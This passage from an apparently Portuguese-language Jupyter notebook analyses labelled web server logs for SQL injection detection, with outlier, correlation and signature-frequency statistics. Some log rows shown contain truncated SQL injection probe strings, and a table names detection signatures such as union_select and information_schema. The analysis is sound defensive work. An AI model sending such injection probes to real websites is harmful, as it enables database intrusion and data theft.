    return mode_vals.iloc[0]

estatisticas = []

for col in numeric_cols:
    s = df_eda[col].dropna()

    if s.empty:
        continue

    q1 = s.quantile(0.25)
    q3 = s.quantile(0.75)
    iqr = q3 - q1

    estatisticas.append({
        "variavel": col,
        "n": int(s.count()),
        "media": s.mean(),
        "mediana": s.median(),
        "moda": first_mode(s),
        "variancia": s.var(),
        "desvio_padrao": s.std(),
        "min": s.min(),
        "max": s.max(),
        "amplitude": s.max() - s.min(),
        "q1": q1,
        "q3": q3,
        "iqr": iqr,
        "assimetria": s.skew(),
        "curtose": s.kurt()
    })

df_estatisticas_numericas = pd.DataFrame(estatisticas)

print("Shape de df_estatisticas_numericas:", df_estatisticas_numericas.shape)
display(df_estatisticas_numericas)

Shape de df_estatisticas_numericas: (9, 15)


,variavel,n,media,mediana,moda,variancia,desvio_padrao,min,max,amplitude,q1,q3,iqr,assimetria,curtose
0,request_time,3627,0.010570,0.01,0.01,0.000006,0.002431,0.004,0.037,0.033,0.009,0.012,0.003,1.081841,6.812528
1,body_bytes_sent,3627,371.315136,517.00,517.00,49738.704026,223.021757,26.000,517.000,491.000,30.000,517.000,487.000,-0.877681,-1.230354
2,request_success,3627,0.999724,1.00,1.00,0.000276,0.016605,0.000,1.000,1.000,1.000,1.000,0.000,-60.224580,3627.000000
3,param_position,3627,1.000276,1.00,1.00,0.000276,0.016605,1.000,2.000,1.000,1.000,1.000,0.000,60.224580,3627.000000
4,param_value_raw_length,3627,287.622829,4.00,4.00,257826.688370,507.766372,4.000,2256.000,2252.000,4.000,480.000,476.000,1.719089,1.863822
5,param_value_decoded_length,3627,38.185001,4.00,4.00,3818.630134,61.795066,4.000,282.000,278.000,4.000,61.000,57.000,1.755315,2.008555
6,param_value_was_changed,3627,0.299421,0.00,0.00,0.209826,0.458068,0.000,1.000,1.000,0.000,1.000,1.000,0.876245,-1.232875
7,signature_hit_count,3627,0.491315,0.00,0.00,0.938355,0.968687,0.000,8.000,8.000,0.000,1.000,1.000,2.257592,5.386501
8,target_final_binario,3627,0.269644,0.00,0.00,0.196991,0.443836,0.000,1.000,1.000,0.000,1.000,1.000,1.038594,-0.921832


### 19. Identificação de outliers pela regra do IQR

In [20]:
df_outliers_iqr = []

iqr_cols = [
    "request_time",
    "body_bytes_sent",
    "param_position",
    "param_value_raw_length",
    "param_value_decoded_length",
    "signature_hit_count"
]

for col in iqr_cols:
    s = pd.to_numeric(df_analitica[col], errors="coerce").dropna()

    if s.empty:
        continue

    q1 = s.quantile(0.25)
    q3 = s.quantile(0.75)
    iqr = q3 - q1
    lower_bound = q1 - 1.5 * iqr
    upper_bound = q3 + 1.5 * iqr

    outliers_mask = (s < lower_bound) | (s > upper_bound)
    outliers_count = int(outliers_mask.sum())
    total_count = int(s.count())
    outlier_ratio = outliers_count / total_count if total_count > 0 else 0

    df_outliers_iqr.append({
        "variavel": col,
        "n": total_count,
        "q1": q1,
        "q3": q3,
        "iqr": iqr,
        "limite_inferior": lower_bound,
        "limite_superior": upper_bound,
        "qtd_outliers": outliers_count,
        "proporcao_outliers": outlier_ratio
    })

df_outliers_iqr = pd.DataFrame(df_outliers_iqr)

print("Shape de df_outliers_iqr:", df_outliers_iqr.shape)
display(df_outliers_iqr)

print("\nExemplos de outliers em request_time:")
display(
    df_analitica[
        pd.to_numeric(df_analitica["request_time"], errors="coerce") >
        df_outliers_iqr.loc[df_outliers_iqr["variavel"] == "request_time", "limite_superior"].iloc[0]
    ][
        [
            "log_id",
            "param_name_raw",
            "param_value_decoded",
            "request_time",
            "body_bytes_sent",
            "target_final_binario",
            "tipo_final_provisorio"
        ]
    ].head(10)
)

print("\nExemplos de outliers em body_bytes_sent:")
display(
    df_analitica[
        pd.to_numeric(df_analitica["body_bytes_sent"], errors="coerce") >
        df_outliers_iqr.loc[df_outliers_iqr["variavel"] == "body_bytes_sent", "limite_superior"].iloc[0]
    ][
        [
            "log_id",
            "param_name_raw",
            "param_value_decoded",
            "request_time",
            "body_bytes_sent",
            "target_final_binario",
            "tipo_final_provisorio"
        ]
    ].head(10)
)

Shape de df_outliers_iqr: (6, 9)


,variavel,n,q1,q3,iqr,limite_inferior,limite_superior,qtd_outliers,proporcao_outliers
0,request_time,3627,0.009,0.012,0.003,0.0045,0.0165,53,0.014613
1,body_bytes_sent,3627,30.000,517.000,487.000,-700.5000,1247.5000,0,0.000000
2,param_position,3627,1.000,1.000,0.000,1.0000,1.0000,1,0.000276
3,param_value_raw_length,3627,4.000,480.000,476.000,-710.0000,1194.0000,341,0.094017
4,param_value_decoded_length,3627,4.000,61.000,57.000,-81.5000,146.5000,352,0.097050
5,signature_hit_count,3627,0.000,1.000,1.000,-1.5000,2.5000,240,0.066170



Exemplos de outliers em request_time:


,log_id,param_name_raw,param_value_decoded,request_time,body_bytes_sent,target_final_binario,tipo_final_provisorio
3,3,q,test,0.021,517,0,No_Match
4,4,q,6687,0.017,30,0,No_Match
12,12,q,"test"" AnD 7760 betWeEn 1158 AnD 1...",0.027,30,1,Heuristic_Only
16,16,q,test')) aND 6900 lIkE 8799 aND ...,0.019,30,1,Heuristic_Only
18,18,q,test'))) And 6958 Like 2104 And ((('...,0.019,30,1,Heuristic_Only
20,20,q,test' And 1194 liKE 3879 An...,0.018,30,1,Heuristic_Only
22,22,q,test') aND 4953 Like 1788 aND ...,0.017,30,1,Heuristic_Only
24,24,q,test')) aND 1749 liKe 8303 aN...,0.018,30,1,Heuristic_Only
26,26,q,test'))) anD 7094 lIKe 9458 anD ...,0.017,30,1,Heuristic_Only
28,28,q,test%' anD 4428 lIKE 7025 anD...,0.017,30,1,Heuristic_Only



Exemplos de outliers em body_bytes_sent:


,log_id,param_name_raw,param_value_decoded,request_time,body_bytes_sent,target_final_binario,tipo_final_provisorio


### 20. Histogramas e KDEs das variáveis numéricas











In [21]:
plot_cols = [
    "request_time",
    "body_bytes_sent",
    "param_value_raw_length",
    "param_value_decoded_length",
    "signature_hit_count"
]

for col in plot_cols:
    s = pd.to_numeric(df_analitica[col], errors="coerce").dropna()

    if s.empty:
        continue

    plt.figure(figsize=(8, 4))
    s.plot(kind="hist", bins=30, density=True, alpha=0.7)
    s.plot(kind="kde")
    plt.title(f"Distribuição de {col}")
    plt.xlabel(col)
    plt.ylabel("Densidade")
    plt.grid(True, alpha=0.3)
    plt.show()

### 21. Boxplots por target e por tipo de detecção

<Figure size 800x400 with 0 Axes>



<Figure size 800x400 with 0 Axes>



<Figure size 800x400 with 0 Axes>



<Figure size 1000x500 with 0 Axes>



<Figure size 1000x500 with 0 Axes>



<Figure size 1000x500 with 0 Axes>



In [22]:
df_box = df_analitica.copy()

cols_plot = ["request_time", "body_bytes_sent", "param_value_decoded_length"]

for col in cols_plot:
    df_box[col] = pd.to_numeric(df_box[col], errors="coerce")

# Boxplots por target final binário
for col in cols_plot:
    plt.figure(figsize=(8, 4))
    df_box.boxplot(column=col, by="target_final_binario")
    plt.title(f"Boxplot de {col} por target_final_binario")
    plt.suptitle("")
    plt.xlabel("target_final_binario")
    plt.ylabel(col)
    plt.grid(True, alpha=0.3)
    plt.show()

# Boxplots por tipo final provisório
tipos_para_plot = df_box["tipo_final_provisorio"].value_counts().index.tolist()

for col in cols_plot:
    plt.figure(figsize=(10, 5))
    df_box.boxplot(column=col, by="tipo_final_provisorio", rot=45)
    plt.title(f"Boxplot de {col} por tipo_final_provisorio")
    plt.suptitle("")
    plt.xlabel("tipo_final_provisorio")
    plt.ylabel(col)
    plt.grid(True, alpha=0.3)
    plt.show()

### 22. Matriz de correlação de Spearman

Shape da matriz de correlação: (13, 13)


,request_time,body_bytes_sent,request_success,param_position,param_value_raw_length,param_value_decoded_length,param_value_was_changed,signature_hit_count,target_match_exato,target_contains,target_signature,target_final_binario,tipo_heuristic_only_bin
request_time,1.000000,-0.089869,0.021205,0.005499,0.051489,0.050363,0.090305,0.035547,NaN,NaN,0.069064,0.069064,0.069064
body_bytes_sent,-0.089869,1.000000,0.036256,0.010849,-0.978905,-0.977273,-0.999284,-0.915671,NaN,NaN,-0.928668,-0.928668,-0.928668
request_success,0.021205,0.036256,1.000000,0.000276,-0.014421,-0.031182,-0.025402,-0.036888,NaN,NaN,-0.027331,-0.027331,-0.027331
param_position,0.005499,0.010849,0.000276,1.000000,0.014421,0.031182,0.025402,0.036888,NaN,NaN,0.027331,0.027331,0.027331
param_value_raw_length,0.051489,-0.978905,-0.014421,0.014421,1.000000,0.999091,0.979340,0.919198,NaN,NaN,0.912448,0.912448,0.912448
param_value_decoded_length,0.050363,-0.977273,-0.031182,0.031182,0.999091,1.000000,0.978134,0.920290,NaN,NaN,0.913169,0.913169,0.913169
param_value_was_changed,0.090305,-0.999284,-0.025402,0.025402,0.979340,0.978134,1.000000,0.916673,NaN,NaN,0.929428,0.929428,0.929428
signature_hit_count,0.035547,-0.915671,-0.036888,0.036888,0.919198,0.920290,0.916673,1.000000,NaN,NaN,0.986276,0.986276,0.986276
target_match_exato,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN
target_contains,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN





Correlação de interesse:


,target_match_exato,target_contains,target_signature,target_final_binario,tipo_heuristic_only_bin
request_time,NaN,NaN,0.069064,0.069064,0.069064
body_bytes_sent,NaN,NaN,-0.928668,-0.928668,-0.928668
param_value_decoded_length,NaN,NaN,0.913169,0.913169,0.913169


In [23]:
df_corr = df_analitica.copy()

# coluna binária auxiliar para o tipo atual observado no notebook
df_corr["tipo_heuristic_only_bin"] = (
    df_corr["tipo_final_provisorio"] == "Heuristic_Only"
).astype("Int64")

corr_cols = [
    "request_time",
    "body_bytes_sent",
    "request_success",
    "param_position",
    "param_value_raw_length",
    "param_value_decoded_length",
    "param_value_was_changed",
    "signature_hit_count",
    "target_match_exato",
    "target_contains",
    "target_signature",
    "target_final_binario",
    "tipo_heuristic_only_bin"
]

for col in corr_cols:
    df_corr[col] = pd.to_numeric(df_corr[col], errors="coerce")

corr_matrix_spearman = df_corr[corr_cols].corr(method="spearman")

print("Shape da matriz de correlação:", corr_matrix_spearman.shape)
display(corr_matrix_spearman)

plt.figure(figsize=(10, 8))
plt.imshow(corr_matrix_spearman, interpolation="nearest", aspect="auto")
plt.colorbar()
plt.xticks(range(len(corr_cols)), corr_cols, rotation=90)
plt.yticks(range(len(corr_cols)), corr_cols)
plt.title("Heatmap - Correlação de Spearman")
plt.tight_layout()
plt.show()

corr_interesse = corr_matrix_spearman.loc[
    ["request_time", "body_bytes_sent", "param_value_decoded_length"],
    ["target_match_exato", "target_contains", "target_signature", "target_final_binario", "tipo_heuristic_only_bin"]
]

print("\nCorrelação de interesse:")
display(corr_interesse)

### 23. Scatter plots das variáveis mais relevantes







In [24]:
df_scatter = df_analitica.copy()

scatter_cols = [
    "request_time",
    "body_bytes_sent",
    "param_value_decoded_length",
    "target_final_binario"
]

for col in scatter_cols:
    df_scatter[col] = pd.to_numeric(df_scatter[col], errors="coerce")

# request_time x param_value_decoded_length
plt.figure(figsize=(8, 5))
plt.scatter(
    df_scatter["param_value_decoded_length"],
    df_scatter["request_time"],
    c=df_scatter["target_final_binario"],
    alpha=0.6
)
plt.title("request_time vs param_value_decoded_length")
plt.xlabel("param_value_decoded_length")
plt.ylabel("request_time")
plt.grid(True, alpha=0.3)
plt.show()

# body_bytes_sent x param_value_decoded_length
plt.figure(figsize=(8, 5))
plt.scatter(
    df_scatter["param_value_decoded_length"],
    df_scatter["body_bytes_sent"],
    c=df_scatter["target_final_binario"],
    alpha=0.6
)
plt.title("body_bytes_sent vs param_value_decoded_length")
plt.xlabel("param_value_decoded_length")
plt.ylabel("body_bytes_sent")
plt.grid(True, alpha=0.3)
plt.show()

# request_time x body_bytes_sent
plt.figure(figsize=(8, 5))
plt.scatter(
    df_scatter["request_time"],
    df_scatter["body_bytes_sent"],
    c=df_scatter["target_final_binario"],
    alpha=0.6
)
plt.title("request_time vs body_bytes_sent")
plt.xlabel("request_time")
plt.ylabel("body_bytes_sent")
plt.grid(True, alpha=0.3)
plt.show()

### 24. Proporção dos tipos de SQLi detectados

Tabela de proporção por tipo - dimensão de payloads:


,tipo_sqli_dim_payloads,frequencia,proporcao



Tabela de proporção por assinatura heurística:


,signature_unit,frequencia,proporcao
0,comment_double_dash,658,0.369248
1,like_injection,464,0.260382
2,between_injection,464,0.260382
3,union_select,132,0.074074
4,comment_hash,28,0.015713
5,select_from,26,0.014590
6,and_true_condition,2,0.001122
7,comment_block,2,0.001122
8,information_schema,2,0.001122
9,union_all_select,2,0.001122




In [25]:
# --- 1) proporção por tipo vindo da dimensão de payloads ---
df_prop_dim = (
    df_analitica[df_analitica["tipo_sqli_dim_payloads"] != "No_Match"]
    .groupby("tipo_sqli_dim_payloads", dropna=False)
    .size()
    .reset_index(name="frequencia")
    .sort_values("frequencia", ascending=False)
    .reset_index(drop=True)
)

if not df_prop_dim.empty:
    df_prop_dim["proporcao"] = df_prop_dim["frequencia"] / df_prop_dim["frequencia"].sum()
else:
    df_prop_dim["proporcao"] = pd.Series(dtype=float)

print("Tabela de proporção por tipo - dimensão de payloads:")
display(df_prop_dim)

# --- 2) proporção por assinatura heurística ---
df_prop_signature = (
    df_analitica[df_analitica["target_signature"] == 1]
    .assign(
        signature_unit=df_analitica.loc[
            df_analitica["target_signature"] == 1,
            "signature_hits_str"
        ].str.split(" | ", regex=False)
    )
    .explode("signature_unit")
)

if not df_prop_signature.empty:
    df_prop_signature = (
        df_prop_signature[
            df_prop_signature["signature_unit"].notna() &
            (df_prop_signature["signature_unit"].astype(str).str.strip() != "") &
            (df_prop_signature["signature_unit"].astype(str).str.strip() != "No_Match")
        ]
        .groupby("signature_unit", dropna=False)
        .size()
        .reset_index(name="frequencia")
        .sort_values("frequencia", ascending=False)
        .reset_index(drop=True)
    )
    df_prop_signature["proporcao"] = (
        df_prop_signature["frequencia"] / df_prop_signature["frequencia"].sum()
    )
else:
    df_prop_signature = pd.DataFrame(columns=["signature_unit", "frequencia", "proporcao"])

print("\nTabela de proporção por assinatura heurística:")
display(df_prop_signature)

# --- 3) gráficos de barras ---
if not df_prop_dim.empty:
    plt.figure(figsize=(8, 4))
    plt.bar(df_prop_dim["tipo_sqli_dim_payloads"], df_prop_dim["frequencia"])
    plt.title("Frequência por tipo - dimensão de payloads")
    plt.xlabel("tipo_sqli_dim_payloads")
    plt.ylabel("frequencia")
    plt.xticks(rotation=45)
    plt.grid(True, alpha=0.3)
    plt.show()

if not df_prop_signature.empty:
    plt.figure(figsize=(10, 4))
    plt.bar(df_prop_signature["signature_unit"], df_prop_signature["frequencia"])
    plt.title("Frequência por assinatura heurística")
    plt.xlabel("signature_unit")
    plt.ylabel("frequencia")
    plt.xticks(rotation=45)
    plt.grid(True, alpha=0.3)
    plt.show()

### 25. Comportamento de request_time e body_bytes_sent por assinatura heurística

Shape de df_signature_stats: (11, 8)


,signature_unit,frequencia,request_time_media,request_time_mediana,request_time_desvio_padrao,body_bytes_sent_media,body_bytes_sent_mediana,body_bytes_sent_desvio_padrao
0,comment_double_dash,658,0.010514,0.0100,0.002643,30.734043,30.0,18.986114
1,like_injection,464,0.010694,0.0100,0.002692,30.000000,30.0,0.000000
2,between_injection,464,0.010172,0.0100,0.002819,30.000000,30.0,0.000000
3,union_select,132,0.008606,0.0080,0.002658,30.000000,30.0,0.000000
4,comment_hash,28,0.011357,0.0115,0.002129,47.250000,30.0,92.065446
5,select_from,26,0.008885,0.0090,0.002269,48.576923,30.0,95.543152
6,and_true_condition,2,0.009500,0.0095,0.002121,271.500000,271.5,347.189430
